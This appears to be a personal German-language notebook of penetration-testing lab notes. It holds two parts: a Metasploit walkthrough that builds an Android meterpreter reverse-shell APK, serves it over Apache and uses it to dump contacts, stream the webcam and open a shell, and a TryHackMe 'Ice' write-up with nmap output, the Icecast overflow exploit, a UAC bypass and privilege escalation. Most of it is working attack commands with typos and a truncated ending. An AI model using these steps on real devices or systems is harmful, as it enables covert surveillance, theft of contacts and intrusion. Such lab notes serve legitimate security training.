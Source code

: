 # android hacking with metasploit kali 
#### datum: 13.05.2020
[link](https://www.youtube.com/watch?v=YRm-St0bJhU)
---
###
> 1. es wird eine android applikation erstellt, mit einer einfachen view 
> 2. msfvenom (framework) 
> 2.1. msfpayload
> 2.2. msfencode 	

```
0. [new terminal 0]
1. [0] ifconfig 
2. [0] msfvenom -help 
3. [0] msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=4444 R > /var/www/html/androidApp.apk
4. [0] service apache2 status 
5. [0] msfconsole 
6. [0] use exploit/mulit/handler
7. [0] set payload android/meterpreter/reverse-tcp 
8. [0] show options
9. [0] set LHOST 192.168.1.23 [ip-Virtual Box]
10. [0] show options
11. [0] exploit 
12. [0] background
13. [0] sessions
14. [0] sessions -i 1
15. [0] help
16. [0] app_list
17. [0] dump_contacts
18. [new terminal 1]
19. [1] cat contacts dump 20190915183350.txt
20. [0] webcam_list
21. [0] background
22. [0] exploit (muli/handler)
23. [0] sessions
24. [0] exploit
25. [0] background
26. [0] sessions
27. [0] sessions -i 8
28. [0] help
29. [0] webcam_list
30. [0] shell
31. [0] ls
32. [0] whoiam
33. [0] pwd
```
---
### prof. 
> snap-shot mit der handykamera // stream 
```
0. use exploit/multi/handler
1. set payload android/meterpreter/reverse_tcp
2. set lhost 192.168.0.132
3. show options 
4. exploit 
5. webcam_steam -h // get help
6. webcam_list
7. webcam_stream -d 5 -i 1 // d (duration aufnahmezeit/ index of webcam)
8. [rage quit]
9. cd /home/kali/
10. msfconsole
11. [alles wie vorher]
12. webcam_stream -d 5 -i 1 
13. cp [daten] /var/www/html 
```

---
# ice 
[link room tryhackme]()

## task1 
verbinden

## task 2
> nmap -sC -sV -oN ice.nmap 10.10.87.148
### ergebnis
```
# Nmap 7.80 scan initiated Wed May 13 10:19:06 2020 as: nmap -sC -sV -oN ice.nmap 10.10.87.148
Nmap scan report for 10.10.87.148
Host is up (0.074s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-13T08:20:13+00:00; -2s from scanner time.
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h14m57s, deviation: 2h30m00s, median: -2s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:73:37:13:4c:70 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-13T03:20:07-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-13T08:20:07
|_  start_date: 2020-05-13T08:13:20

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 13 10:21:15 2020 -- 1 IP address (1 host up) scanned in 129.06 seconds
```
1. **3389** <br>
[https://www.cvedetails.com/](https://www.cvedetails.com/)
2. **execute code overflow**
3. **CVE-2004-1561**
> search icecast
> use 0
6. **RHOSTS** 
> setg rhosts 10.10.87.148
7. Video 
[https://www.youtube.com/watch?v=qUQhCrpBEK4](https://www.youtube.com/watch?v=qUQhCrpBEK4)
> use exploit/windows/http/icecast_header <br>
> set rhosts 10.10.87.148 <br>
> exploit <br>
> sessions  <br>
> use /post/multi/recon/local_exploit_suggester <br>
> set sessions 1 <br>
> exploit <br>
> use windows/local/bypassuac_eventvwr<br>
> set session 7 <br>
> set lhost 10.10.83.15 <br>
> getprivs <br>
> migrate -N spoolsv.exe<br>
---
10.10.207.74
### next try

#### lhosts vpn ip adresse 10.9.9.13
[https://www.youtube.com/watch?v=490l9BoUGD4](https://www.youtube.com/watch?v=490l9BoUGD4)
> search icecast <br>
> searchsploit icecast
> zwischenablage 2.0.1 (Windows x86) - Header Overwrite (Metasploit) <br>
> internet <br>
> search uac<br>
> use 4<br>
> options <br>
> set payload windows/meterpreter/reverse_tcp<br>
> set lhosts 10.10.207.74<br>
> 